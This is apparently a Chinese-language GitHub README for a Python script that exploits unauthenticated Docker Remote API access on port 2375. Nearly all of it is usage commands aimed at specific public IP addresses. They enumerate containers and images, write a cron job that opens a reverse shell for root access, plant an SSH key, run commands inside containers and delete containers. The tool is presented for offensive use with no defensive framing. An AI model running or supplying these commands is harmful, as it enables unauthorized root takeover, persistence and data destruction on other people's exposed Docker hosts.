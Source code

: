 # docker 未授权访问漏洞利用脚本

    基于docker_api_vul修复镜像不存在之bug,有时间考虑实现将镜像查找与镜像利用结合利用。

    Tycx2ry/docker_api_vul: docker 未授权访问漏洞利用脚本

    https://github.com/Tycx2ry/docker_api_vul


##安装类库

    pip install -r requirements.txt

##查看运行的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375

##查看所有的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -a

##查看所有镜像

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -l

##查看端口映射

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -L

##写计划任务（centos,redhat等,加-u参数用于ubuntu等）

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口
    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口

##写sshkey(自行修改脚本的中公钥)

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -k

##在容器中执行命令

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -e "id" -I 容器id

##删除容器

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -c -I 容器id

##修改client api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -v 1.22

##查看服务端api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -V

